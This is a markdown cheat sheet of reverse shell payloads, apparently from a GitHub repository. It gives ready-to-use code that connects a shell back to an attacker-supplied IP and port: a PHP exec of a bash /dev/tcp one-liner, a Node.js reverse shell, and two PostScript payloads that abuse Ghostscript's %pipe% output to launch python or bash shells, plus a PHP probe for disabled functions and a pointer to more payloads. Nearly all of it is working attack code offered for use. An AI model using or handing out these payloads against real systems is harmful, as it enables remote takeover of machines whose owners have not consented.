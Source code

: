 # Reverse shells
## PHP Reverse Shell
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
```

## Javascript Reverse Shell
```js
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(<port>, '<ip>');
```

## Postscript Reverse Shell
```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1') currentdevice putdeviceprops
```

## PHP RCE
```php
<?php var_dump(explode('.'.ini_get('disable_functions')));?>
```
   
## This is where you can get more reverse shell
***https://gtfobins.github.io***
